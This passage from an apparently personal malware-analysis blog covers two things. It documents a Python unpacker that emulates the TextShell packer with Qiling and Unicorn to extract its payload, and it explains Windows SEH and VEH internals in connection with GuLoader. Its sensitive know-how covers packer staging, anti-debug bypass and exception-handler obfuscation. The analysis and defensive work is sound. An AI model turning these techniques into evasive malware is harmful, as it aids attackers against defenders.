pointer-to-pointer arguments: the base address and size are passed as pointers that the
function is expected to write back into, which is how the NT syscall interface works:

#+begin_src python
base_addr_ptr = params["BaseAddress"]
region_size_ptr = params["RegionSize"]

request_size = ql.mem.read_ptr(region_size_ptr)
preferred_addr = ql.mem.read_ptr(base_addr_ptr)

# ... allocate ...

ql.mem.write_ptr(base_addr_ptr, final_addr)
ql.mem.write_ptr(region_size_ptr, request_size)
#+end_src

Both hooks are registered before the emulation starts:

#+begin_src python
self.ql.os.set_api("ZwAllocateVirtualMemory", hook_ZwAllocateVirtualMemory)
self.ql.os.set_api("NtAllocateVirtualMemory", hook_ZwAllocateVirtualMemory)
self.ql.os.set_api("IsDebuggerPresent", hook_IsDebuggerPresent)
self.ql.os.set_api("VirtualAlloc", hook_VirtualAlloc)
self.ql.loader.PEB.BeingDebugged = 0
#+end_src

Setting ~PEB.BeingDebugged = 0~ directly is a belt-and-suspenders measure on top of the
~IsDebuggerPresent~ hook. The hook itself just reads that field and returns it:

#+begin_src python
@winsdkapi(cc=STDCALL, params={})
def hook_IsDebuggerPresent(ql: Qiling, address: int, params):
    return ql.loader.PEB.BeingDebugged
#+end_src

** Reading Back the Payload

After ~ql.run()~ completes (or raises, which is expected  the packer will eventually try to
execute the shellcode and crash inside Qiling), ~shellcode_location~ and ~shellcode_size~
hold the address and size of the allocated region. Reading it back is one line:

#+begin_src python
buff = self.ql.mem.read(self.shellcode_location, self.shellcode_size)
#+end_src

This is the raw stage 2 shellcode. Before we can emulate it, we need to know where inside it
execution should start  i.e., the value that the packer loaded into the register it jumps to
at the end of the entry function.

*** Finding the Shellcode Entrypoint: Walking .text Backwards

The packer's entry function ends with a ~jmp reg~ or ~call reg~ instruction. The register
holds the entrypoint offset into the allocated shellcode buffer. To find that offset without
running a debugger, ~find_next_stage_ep_offset~ does the following:

1. Disassemble the ~.text~ section from the PE entrypoint onwards with Capstone.
2. Stop at the first ~RET~ instruction  that is the end of the entry function.
3. Walk the collected instructions backwards until a ~JMP~ or ~CALL~ is found.
4. Take the 20 instructions preceding that jump and re-emulate them in isolation with
   ~TinyShellcodeEmulator~.

#+begin_src python
for insn in md.disasm(code, image_base_address + text_section.VirtualAddress):
    if insn.address > ep:
        instructions.append(insn)
        if insn.id == X86_INS_RET:
            break

_offset = 0
for idx, insn in enumerate(instructions[::-1]):
    if insn.id in (X86_INS_JMP, X86_INS_CALL):
        _offset = idx
        break

offset_invoke = len(instructions) - _offset - 1
cs_shellcode_jumper = instructions[offset_invoke - 20 : offset_invoke + 1]

shellcode = b""
for insn in cs_shellcode_jumper:
    shellcode += insn.bytes
#+end_src

The 20-instruction window is pragmatic. The sequence that computes the register value and
then jumps is self-contained  it does not depend on global state set earlier in the function.
In practice, taking the last 20 instructions before the jump captures the entire computation.

#+caption: [IDA: disassembly of the end of the entry function showing the instruction sequence leading to the jmp/call reg  the window that TinyShellcodeEmulator re-emulates]
#+attr_html: :alt IDA disassembly of TextShell entry function tail with shellcode invocation

*** TinyShellcodeEmulator: Resolving the Register Value

~TinyShellcodeEmulator~ takes the raw bytes of those ~20 instructions and runs them in
Unicorn. It hooks every instruction and watches for the moment execution reaches the
~jmp~/~call~ at the end of the sequence. When it does, Capstone disassembles that single
instruction to identify which register is used, and Unicorn reads the register's value:

#+begin_src python
def hook_code(self, uc, address, size, user_data):
    if address >= self.ADDRESS_OF_INVOKE:
        code_bytes = uc.mem_read(address, size)
        reg_name = self.get_capstone_reg(code_bytes)

        if reg_name:
            uc_reg_id = REG_MAP.get(reg_name)
            if uc_reg_id:
                target_val = uc.reg_read(uc_reg_id)
                self.reg_target = target_val

        uc.emu_stop()
#+end_src

~get_capstone_reg~ uses Capstone to identify the register operand of the ~CALL~ or ~JMP~:

#+begin_src python
def get_capstone_reg(self, code_bytes) -> str | None:
    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True
    for insn in md.disasm(code_bytes, 0):
        if insn.id in [X86_INS_CALL, X86_INS_JMP] and len(insn.operands) > 0:
            if insn.operands[0].type == X86_OP_REG:
                return insn.reg_name(insn.operands[0].reg)
    return None
#+end_src

The reason for using Capstone here rather than just reading the opcode bytes directly is
register naming: Capstone returns a canonical string like ~"rax"~ or ~"r14"~ that maps
cleanly to the Unicorn register constant table. It avoids a fragile manual opcode-to-register
decoding step.

The ~ADDRESS_OF_INVOKE~ is computed as ~BASE_ADDRESS + len(shellcode) - 2~. The last
instruction of the extracted sequence is the ~jmp~/~call~, and the ~-2~ accounts for the
minimum encoding length of those instructions. In practice it means the hook fires on the
last one or two instructions of the miniature emulation, which is all we need.

After ~run_emulation()~ completes, ~tiny_shellcode_emu.reg_target~ holds the stage 2
shellcode entrypoint address  the absolute virtual address that the packer would have jumped
to. The caller extracts the offset from there.

** Stage 2 Emulation: Decompressing the Payload

*** What Stage 2 Is

The memory region extracted from stage 1 is a custom shellcode whose job is to decompress
the actual stage 3 payload. The decompressed output is written to the *beginning* of the
shellcode's own memory region  it inflates in place, overwriting the leading bytes of the
buffer with the result. The end of the buffer remains the compressed shellcode itself.

This in-place layout is what makes extraction straightforward: after the shellcode finishes,
the beginning of the memory region contains the stage 3 PE, and the trailing zeroed-out area
marks where the payload ends.

*** Unicorn Setup

~InflateShellcodeEmulator~ maps the shellcode into Unicorn's address space starting at
~0x1000~, sets up a 2MB stack at ~0x70000000~, and runs from the entrypoint offset that
~TinyShellcodeEmulator~ resolved in the previous step:

#+begin_src python
def init(self):
    def align_page(size):
        return (size + 0xFFF) & ~0xFFF

    code_size = align_page(len(self.shellcode))
    self.mu.mem_map(self.base_address, code_size)
    self.mu.mem_write(self.base_address, self.shellcode)

    STACK_ADDRESS = 0x70000000
    STACK_SIZE = 2 * 1024 * 1024
    self.mu.mem_map(STACK_ADDRESS, STACK_SIZE)
    self.mu.reg_write(UC_X86_REG_RSP, STACK_ADDRESS + STACK_SIZE - 0x100)
#+end_src

Page alignment is required by Unicorn  ~mem_map~ will reject sizes that are not multiples of
~0x1000~. The ~align_page~ helper rounds up to the next page boundary.

A hook is added to catch unmapped memory writes, which helps diagnose crashes during
development:

#+begin_src python
def hook_mem_invalid(uc, access, address, size, value, user_data):
    if access == UC_MEM_WRITE_UNMAPPED:
        print(f"[!] Invalid WRITE at {hex(address)}")
    return False

self.mu.hook_add(UC_HOOK_MEM_WRITE_UNMAPPED, hook_mem_invalid)
#+end_src

*** Running and Extracting the Output

Emulation runs from ~base_address + entrypoint~ to ~base_address + len(shellcode)~:

#+begin_src python
self.mu.emu_start(
    begin=self.base_address + self.entrypoint,
    until=self.base_address + len(self.shellcode),
)
#+end_src

Unicorn will almost certainly raise a ~UcError~ before reaching the ~until~ address  the
shellcode will eventually try to do something Unicorn cannot service (an API call, a CPUID,
etc.). That is expected and handled in the ~try/except~ block. What matters is that the
decompression loop ran to completion before the crash.

After the emulation terminates, ~extract_inflate_payload~ reads the output back. It scans
forward through the buffer from the beginning, stopping at the first run of zero bytes  that
is where the payload ends and the trailing padding begins:

#+begin_src python
def find_end_area(self) -> int:
    for offset, byte in enumerate(bytearray(self.shellcode)):
        if byte != 0:
            return offset - 2
    return 0

def extract_inflate_payload(self) -> bytes:
    end = self.find_end_area()
    payload = self.mu.mem_read(self.base_address, self.base_address + end)
    return bytes(payload)
#+end_src

A quick sanity check looks for the ~MZ~ magic bytes in the extracted data:

#+begin_src python
print("[*] found a valid PE in inflated data") if b"MZ" in next_stage \
    else print("[!] failed to unpack TextShell")
#+end_src

#+caption: [IDA / hex view: the stage 2 shellcode buffer in memory after the stage 1 dump, showing the entrypoint offset and the zero-padded region at the beginning where the inflated PE will be written]
#+attr_html: :alt Hex view of stage 2 shellcode buffer showing entrypoint and zero-padded output area

** Putting It All Together

~TextShellUnpacker~ is the top-level class that sequences everything above. Its ~run()~
method is a straight pipeline:

#+begin_src python
def run(self):
    # 1. Clean the API hammering
    self.clean_pe = self.textshell_pe_cleaner.clean()
    filepath = os.path.join(self.rootfs, "packer.bin")
    with open(filepath, "wb") as f:
        f.write(self.clean_pe)

    # 2. Emulate stage 1 under Qiling, get the shellcode buffer
    self.textshell_pe_emulator.setup()
    self.stage2 = self.textshell_pe_emulator.run()

    # 3. Find the shellcode entrypoint
    stage2_entrypoint = self.textshell_pe_emulator.find_next_stage_ep_offset()

    # 4. Emulate stage 2 under Unicorn, decompress stage 3
    self.inflate_shellcode_emulator.entrypoint = stage2_entrypoint
    self.inflate_shellcode_emulator.shellcode = self.stage2
    self.inflate_shellcode_emulator.init()
    self.stage3 = self.inflate_shellcode_emulator.run()

    # 5. Dump the final payload
    self.dump_payload("unpacked", self.stage3)
#+end_src

A few practical points worth noting:

- *The rootfs write happens twice*. ~_prepare_workspace~ copies the original PE into the
  rootfs at init time. After cleaning, the cleaned PE overwrites the same path. Qiling picks
  up the cleaned version because ~setup()~ is called after the write.

- *~dump_all~ flag*: When set, the cleaner output (~-clean.bin~) and the raw stage 2
  shellcode (~-stage2.bin~) are also written to disk in addition to the final payload
  (~-unpacked.bin~). Useful for debugging, not needed for routine extraction.

- *File naming*: Dumps are prefixed with the SHA-1 of the original input file. This keeps
  output directories clean when processing batches of samples and lets you correlate outputs
  back to their source.

The script is invoked from the command line:

#+begin_src sh
python unpacker.py \
    --pe-path /path/to/sample.exe \
    --rootfs /path/to/rootfs/x8664_windows \
    --output-path /tmp/unpacked \
    --dump-all
#+end_src

Qiling's rootfs for Windows x86-64 is a separate repository
(~qilingframework/rootfs~) that needs to be cloned separately. It provides the DLL stubs
that Qiling uses to service Windows API calls during emulation.

** Limitations and Known Blind Spots

The script works reliably on the variants described in the ReversingLabs and Sekoia.io
reports. There are a few areas where it will need adjustment as the packer evolves:

*** The Cleaner Has Blind Spots

~TextShellPECleaner~ identifies junk calls by checking whether the resolved call destination
falls within the import table address range. This works for ~VirtualAlloc~-era variants where
the relevant DLLs are listed in the import directory. For newer variants that resolve all APIs
dynamically via PEB traversal and hash comparison  including ~ZwAllocateVirtualMemory~ 
those calls do not appear in the import table and therefore are not patched. The cleaner will
leave them in place, which may or may not cause problems depending on how Qiling handles the
indirect calls. A solution would be to resolve dynamically the API before cleaning the PE,
then identify one that are used to allocate memory (~VirtualAlloc~, ~HeapAlloc~, etc...) and
incorporate these into the API not to clean. And therefore prepare these functions signature
for Qiling hook's.

*** The 20-Instruction Window Is a Heuristic

The assumption that 20 instructions before the shellcode invocation are sufficient to
reconstruct the register value is based on observed samples. If a future variant uses a
longer computation to derive the entrypoint  for example, by pulling in a value set much
earlier in the function  the window will need to be widened. The symptom would be
~TinyShellcodeEmulator~ producing ~reg_target = 0~ or a clearly wrong address.

*** DLL Variant Support

The current hooks and emulation flow are designed around the EXE variant of TextShell. DLL
variants have additional execution paths (DLL unload events, ~DllRegisterServer~ export) and
pass different parameters through to the payload. The ~fdwReason~ check in the DLL main
function is not currently handled, which means the emulation may not reach the payload
allocation code for DLL samples without additional hooks.

** Conclusion

The unpacker automates what would otherwise be a manual process: patch the noise, emulate
the loader, intercept the allocation, find the entrypoint, emulate the decompressor, read the
output. Each step maps to a class in the script, and each class has a narrow responsibility.

Chaining Qiling and Unicorn for different stages of the same unpacking pipeline is a
reasonable pattern for this kind of multi-stage loader. Qiling gives you the full Windows API
emulation surface you need for stage 1, and Unicorn gives you the bare-metal speed and
control you need for the raw shellcode in stage 2  where there are no API calls, only
arithmetic and memory writes.

The script as presented handles the variants active through early 2026. As ReversingLabs'
analysis notes, the packer author has been iterating steadily removing UPX artifacts,
switching from ~VirtualAlloc~ to ~ZwAllocateVirtualMemory~, varying hash constants. The
architecture of the unpacker should absorb most of those changes with targeted hook updates
rather than structural rewrites.

The full script is available at: =[link to your repository]=

* DONE It's Called a VEH-tor ↗️                                 :@Windows:VEH:
SCHEDULED: <2026-05-20 Wed>
:PROPERTIES:
:EXPORT_FILE_NAME: veh
:END:

#+begin_description
Reading through an old GuLoader sample in the decompiler, following the exception handler,
trying to understand what it was actually doing, made it clear that my knowledge of Windows exception
handling was not structured enough to tackle this kind of obfuscation confidently on another family.
I knew the broad strokes, enough to recognize the technique, but not enough to follow it precisely or explain it to someone else.

This is a personal writeup, an attempt to connect the dots properly rather than carry around
a vague understanding that works until it does not. It covers the theoretical foundation of SEH and VEH,
and how the internal structures look in a debugger and a disassembler.

A lot of what ended up here was things I already had a rough idea of but had never verified properly.
Documenting what I learned about exceptions allowed me to refine my grasp of the subject.
Nothing revolutionary, just notes from someone who went back to the source and want to avoid future headaches.
#+end_description

What brought me back to this subject is the analysis of /GuLoader/ that uses VEH (see /SonicWall/, /Zscaler/ and /Unit42/ articles for more deeper
malware analysis).

This article is my attempt to write down what I learned properly, starting from the actual concepts rather than jumping straight to the tricks.
SEH and VEH are legitimate, well-designed mechanisms. Understanding how they are supposed to work is what makes the abuse readable.

The first part covers the concepts and the API, how the OS dispatches exceptions, how SEH and VEH handlers are registered,
and what developers normally use them for. The second part gets into the malware side: how exception handling gets repurposed to hide execution flow.
To wrap things up, I decided to test some detection logic. I hacked together a basic implementation in C;
while my C skills are definitely still a 'work in progress,' the code serves its purpose in demonstrating how to catch this behavior.

If you already know Windows internals well, the first two parts will mostly be a refresher.
If you are coming at this from the analysis side without much background in the underlying mechanism,
I hope starting from the foundation makes the second part easier to follow.

Before going further, here are some interesting external resources related to VEH related to malware domain:
- [[https://www.sonicwall.com/blog/guloader-demystified-unraveling-its-vectored-exception-handler-approach][SonicWall - GuLoader Demystified: Unraveling its Vectored Exception Handler Approach]]
- [[https://www.zscaler.com/blogs/security-research/technical-analysis-guloader-obfuscation-techniques][Zscaler - Technical Analysis of GuLoader Obfuscation Techniques]]
- [[https://www.slideshare.net/slideshow/unmasking-the-dark-art-of-vectored-exception-handling-bypassing-xdr-and-edr-in-the-evolving-cyber-threat-landscape/263989842?utm_source=clipboard_share_button&utm_campaign=slideshare_make_sharing_viral_v2&utm_variation=control&utm_medium=share][CrowdStrike - Unmasking the Dark Art of Vectored Exception Handling: Bypassing XDR and EDR in the Evolving]]
- [[https://www.ibm.com/think/x-force/using-veh-for-defense-evasion-process-injection][IBM - You just got vectored – using vectored exception handlers (veh) for defense evasion and process injection]]
- [[https://unit42.paloaltonetworks.com/malware-configuration-extraction-techniques-guloader-redline-stealer/][Unit42 - Tackling Anti-Analysis Techniques of GuLoader and RedLine Stealer]]

** SEH, VEH and a Word on C++ Exceptions
- What an exception is at the OS level and how Windows dispatches it (brief, just enough to understand the rest)
- SEH: the stack-based chain, per-thread, per-frame, how the compiler owns it for you
- VEH: process-wide, heap-resident, fires before SEH, the two-function API
- The difference with C++ exceptions: try/catch is a language abstraction built on top of SEH, not the same thing, why that distinction matters when you are reading disassembly

The three terms (SEH, VEH and Exception) often get conflated, especially in malware analysis writeups (and especially by myself).

**What is an exception at the OS level?**
When something goes wrong during execution, whether it is a divide by zero, an access to an unmapped memory page,
or an explicit int 3 instruction, the CPU raises an exception.
Control transfers to the kernel, which builds an =EXCEPTION_RECORD= describing what happened and a =CONTEXT= structure capturing the full register state at the time of the fault.
Windows then tries to find something in user space that knows how to handle it. That search is what SEH and VEH are about.

*** Structured Exception Handling
**** SEH in x86
=SEH= is the older of the two mechanisms. The idea is straightforward: each function that wants to handle exceptions registers a handler on the stack,
forming a linked list rooted at =fs:[0]= on x86. When an exception occurs, Windows walks that list from the top, giving each registered handler a chance to deal with it.
If a handler claims the exception, execution resumes. If nothing handles it, the process crashes.

From a developer perspective, SEH is what sits behind =__try= / =__except= / =__finally= in C.
The compiler does most of the work, emitting the registration and cleanup code around the blocks.
On x64 the implementation is different: instead of a runtime chain on the stack, the compiler emits a static table in the =.pdata= section that the OS uses to /unwind/.
The surface API looks the same but the mechanics underneath are not. That is still unclear to me...

#+begin_src c
#include <windows.h>
#include <stdio.h>

int main(void)
{
    __try
    {
        // intentionally trigger an access violation
        int *ptr = NULL;
        *ptr = 42;
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        printf("SEH caught the exception\n");
    }

    return 0;
}
#+end_src

The C file is compiled with this command line: =cl.exe /Zi /O1 /GS- test-seh.c=. See below the difference between x86 that uses the =fs:[0]= and
the x64 version that has the logic in the =.pdata= section.

#+caption: Main function in 32bit environment


In the 32bits architecture, the exception is "registered" by the first instruction of the =main= function (see the screenshot below). Where the
compiler add the following instructions:

#+begin_src asm
push 8
push offset struc_478178
call j__SEH_prolog
xor eax, eax	
#+end_src	

What =__SEH_prolog= does internally is:

1. Saves the current fs:[0] value (the previous handler in the chain)
2. Builds an =EXCEPTION_REGISTRATION_RECORD= on the stack
3. Points =fs:[0]= to it, inserting this function into the SEH chain
4. Sets up the =ms_exc= local variable, which is the structure MSVC uses to track the current state of the exception handling frame

The structure =struc_478178= is:
#+caption: struc_478178 content


#+name:scopetable-entry
#+begin_src C
typedef struct _SCOPETABLE_ENTRY
{
    DWORD EnclosingLevel;    // index of the enclosing scope, -1 if none
    PVOID FilterFunc;        // pointer to the filter expression
    PVOID HandlerFunc;       // pointer to the __except or __finally block
} SCOPETABLE_ENTRY;
#+end_src

Looking at the entry =<0FFFFFFFFh, offset $LN5, offset catch_except_ptr_42>:=

- **EnclosingLevel = 0xFFFFFFFF** this is =-1=, meaning this =__try= block has no enclosing =__try= block, it is the outermost one in the function
- **FilterFunc = $LN5** this is the compiled form of the filter expression, the code that evaluates =EXCEPTION_EXECUTE_HANDLER= or whatever condition I would put in the C code =__except(...)=
- **HandlerFunc = catch_except_ptr_42** this is the actual =__except= block that runs if the filter says to handle the exception

**** SEH in x64
Regarding 64 bits architecture, the following main function is:
#+caption: x64 decompiled main function


Here, as a first observation there is no =fs:[0]=, no =__SEH_prolog= call. There is no explicit registration at function scope level (from my understanding).

The handler is registered statically through the =.pdata= (I read that it also can be store in =.rdata= section too) structures.

The =.pdata= store the =RUNTIME_FUNCTION= structure that is define by three terms: =BeginAddress=, =EndAddress= and =UnwindData= (the last one is
a pointer to the =UNWIND_INFO= structure).

When the access violation fires at =mov dword ptr [rax], 2Ah= (writing 42 to a null pointer), the OS:
1. Catches the fault in the kernel
2. Comes back to user mode and calls =RtlDispatchException=
3. Takes the faulting =RIP=, does a binary search in =.pdata= to find the matching =RUNTIME_FUNCTION= (the structure that validate this condition: ~BeginAddress <= FaultyRIP < EndAddress~)
4. Follows it to the =UNWIND_INFO=, sees =__C_specific_handler= as the registered handler
5. Calls =__C_specific_handler= which walks the =C_SCOPE_TABLE=, finds the scope covering the faulting address, evaluates the filter =main$filt$0=
6. Filter returns =EXCEPTION_EXECUTE_HANDLER=, execution jumps to =$LN6= which is the =__except= block calling printf
   
The "workflow" of the exception is defined as below:
#+begin_src
Exception Triggers 
  -> OS looks up RIP in .pdata 
    -> Locates RUNTIME_FUNCTION (here stru_140092378)
      -> Follows pointer to UNWIND_INFO 
        -> Calls __C_specific_handler 
          -> Searches C_SCOPE_TABLE 
            -> Jumps to $LN6 (my __except block)
#+end_src

#+caption: .pdata section that hold the RUNTIME_FUNCTION for my exception in the main function


IDA labeled it **ExceptionDir** because it is the first entry in the exception directory. The three fields map directly to the main function:
- =rva main= is the start address of the function, =0x140007250=
- =rva byte_14000727E= is the end address of the main function
- =rva stru_140092378= is the pointer to the **=UNWIND_INFO=** structure, the one that contains =__C_specific_handler= and the =C_SCOPE_TABLE=

The structure is as follow:
#+caption: IDA view of the structure stru_140092378
file:./images/veh/seh_64bit_runtime_struct.png

=stru_140092378= is the =UNWIND_INFO= structure that the =.pdata= entry for =main= points to. It is made of three parts:
1. The =UNWIND_INFO_HDR= is the header. It describes the prologue of the function.
2. The =UNWIND_CODE= is the actual unwinding instruction. 
3. After the unwind codes, because =UNW_FLAG_EHANDLER= was set, comes the exception handler pointer pointing to [[https://learn.microsoft.com/en-us/windows/win32/devnotes/--c-specific-handler2][=__C_specific_handler=]],
   followed by the =C_SCOPE_TABLE= (which a bit different from the structure for [[scopetable-entry][x86]]).
    That table is where the actual exception handling logic is described: which address range is covered by the =__try= block,
    which function to call as the filter, and where to redirect execution if the filter decides to handle the exception.

In x64 the =C_SCOPE_TABLE_ENTRY= structrure is defined as:
#+caption: C_SCOPE_TABLE defintion
#+begin_src c
struct _C_SCOPE_TABLE_ENTRY {
    uint32_t BeginAddress;    // RVA of the start of the __try block
    uint32_t EndAddress;      // RVA of the end of the __try block
    uint32_t HandlerAddress;  // RVA of the filter or __finally handler
    uint32_t JumpTarget;      
} C_SCOPE_TABLE_ENTRY
#+end_src

One structure, three responsibilities: unwind the stack, find the handler, map the guarded region.

So the definition of the structure is:
#+caption: _UNWIND_INFO structure
#+begin_src C
typedef struct _UNWIND_INFO
{
    BYTE VersionAndFlags;       // UNWIND_INFO_HDR - version + flags (UNW_FLAG_EHANDLER etc.)
    BYTE SizeOfProlog;          // UNWIND_INFO_HDR - prologue size in bytes
    BYTE CountOfCodes;          // UNWIND_INFO_HDR - number of UNWIND_CODE slots
    BYTE FrameRegisterAndOffset;// UNWIND_INFO_HDR - frame register + offset

    UNWIND_CODE UnwindCodes[];  // variable length array, CountOfCodes entries
                                // padded to 4 byte alignment

    // only present if flags contain UNW_FLAG_EHANDLER or UNW_FLAG_UHANDLER
    DWORD ExceptionHandlerRVA;  // rva j___C_specific_handler
    
    // handler specific data, depends on which handler is used
    // for __C_specific_handler this is the C_SCOPE_TABLE
    C_SCOPE_TABLE ScopeTable;

} UNWIND_INFO;
#+end_src

At the end of the =UNWIND_INFO= (if certain flags like =UNW_FLAG_EHANDLER= are set), there is an extra field
called the =ExceptionHandler=. For C/C++ code compiled with **MSVC**, this almost always points to =__C_specific_handler=.

/Link to [[https://learn.microsoft.com/en-us/cpp/build/exception-handling-x64?view=msvc-170#struct-unwind_info][Microsoft documentation]]/

*** Vectored Exception Handling

=VEH= was introduced in Windows XP and works differently. Instead of being tied to the stack,
VEH handlers are registered at the process level and stored in a list maintained by =ntdll=. The vectored handler list is consulted before =SEH=.
If any =VEH= handler claims the exception, the SEH chain is never walked at all.

The API is simple. A handler is registered with =AddVectoredExceptionHandler=, which takes a flag indicating whether the handler should be first or last in the list,
and a pointer to the handler function. The handler receives an =EXCEPTION_POINTERS= structure giving it access to both the =EXCEPTION_RECORD= and the =CONTEXT=.
It then returns either =EXCEPTION_CONTINUE_EXECUTION= to resume execution, or =EXCEPTION_CONTINUE_SEARCH= to pass to the next handler.

There is also a sibling mechanism called Vectored Continue Handlers, registered with =AddVectoredContinueHandler=, which fires after a handler has already claimed the exception.
I did not exercice this path in the article.

#+begin_src c
#include <windows.h>
#include <stdio.h>

LONG CALLBACK MyVectoredHandler(PEXCEPTION_POINTERS ExceptionInfo)
{
    if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION)
    {
        printf("VEH caught an access violation at 0x%p\n",
               ExceptionInfo->ExceptionRecord->ExceptionAddress);

        // move RIP past the faulting instruction (could be wrapped with macro for 32bit with eip)
        ExceptionInfo->ContextRecord->Rip += 2;

        return EXCEPTION_CONTINUE_EXECUTION;
    }

    return EXCEPTION_CONTINUE_SEARCH;
}

int main(void)
{
    PVOID handler = AddVectoredExceptionHandler(1, MyVectoredHandler);

    // intentionally trigger an access violation
    int *ptr = NULL;
    *ptr = 42;

    RemoveVectoredExceptionHandler(handler);
    return 0;
}
#+end_src

Here registration is explicit. The first argument to =AddVectoredExceptionHandler= being =1= means this handler goes to the front of the list,
so it fires before any other =VEH= handler and before =SEH=. The handler inspects the exception code, adjusts =RIP= to skip past the faulting instruction,
and returns =EXCEPTION_CONTINUE_EXECUTION= to resume. If the exception is not one it cares about, it returns =EXCEPTION_CONTINUE_SEARCH= to let the next handler in the chain take over.
The key difference to notice: in the =SEH= example the handler is scoped to the =__try= block and the stack frame it lives in.
In the VEH example the handler is active process-wide from the moment it is registered until =RemoveVectoredExceptionHandler= is called, regardless of which function is currently executing.

*** C++ Exceptions are not the Same Thing

This one trips people up. When you write =try / catch= in C++, you are using the C++ exception model, which is a language-level abstraction.
Under the hood on Windows, the compiler implements it on top of SEH, using a special SEH filter to match C++ exception types.
But they are not the same layer. A C++ catch block is not an SEH handler, and it is definitely not a VEH handler.

The reason this distinction matters in practice is that when you are reversing a sample and you see =AddVectoredExceptionHandler= being called, you are not looking at a compiler artifact.
There is no language feature that emits that call for you. It is explicit, intentional code, and whoever wrote it made a deliberate
choice to intercept exceptions at the process level before anything else gets a chance to see them.

If you are interested in C++ exceptions, I highly encourage you to read [[https://www.msreverseengineering.com/blog/2024/8/20/c-unwind-metadata-1][C++ Unwind Exception Metadata: A Hidden Reverse Engineering Bonanza written by Rolf Rolles]].

** How the VEH List is Built and Stored

The VEH list is a doubly-linked list maintained per-process in user-mode memory, managed by ntdll.dll. It holds pointers to registered =PVECTORED_EXCEPTION_HANDLER= callbacks.

When =AddVectoredExceptionHandler= is called, it calls a thin wrapper that forwards to =RtlAddVectoredExceptionHandler= in =ntdll.dll=.
That is where the actual work happens, and it is worth understanding what that function does with the handler pointer.

Ntdll maintains two doubly linked lists for exception handling, one for vectored exception handlers and one for vectored continue handlers.
Both lists are anchored by a single global structure that lives inside ntdll's data segment, commonly referred to as =LdrpVectorHandlerList= in debugging sessions.

The structure looks roughly like this:
#+begin_src c
typedef struct _VECTORED_HANDLER_LIST
{
    SRWLOCK Lock;           // slim reader/writer lock protecting the list
    LIST_ENTRY VEHList;     // head of the vectored exception handler list
    LIST_ENTRY VCHList;     // head of the vectored continue handler list
} VECTORED_HANDLER_LIST;
#+end_src

Each registered handler is wrapped in a node that gets allocated on the heap:
#+begin_src c
typedef struct _VECTORED_EXCEPTION_NODE
{
    LIST_ENTRY ListEntry;         // links to previous and next node
    PVOID EncodedHandler;         // the function pointer, but encoded
    ULONG ReferenceCount; 
} VECTORED_EXCEPTION_NODE;
#+end_src

The =LIST_ENTRY= is the standard Windows doubly linked list structure, with a =Flink= pointing to the next node and a =Blink= pointing to the previous one.
The list head in =LdrpVectorHandlerList= acts as the sentinel node, so walking from =VEHList.Flink= until you loop back to the head gives you every registered handler in order.

=RtlAddVectoredExceptionHandler= does the following (in order):
1. Allocates a =VECTORED_EXCEPTION_NODE= on the process heap with =RtlAllocateHeap=
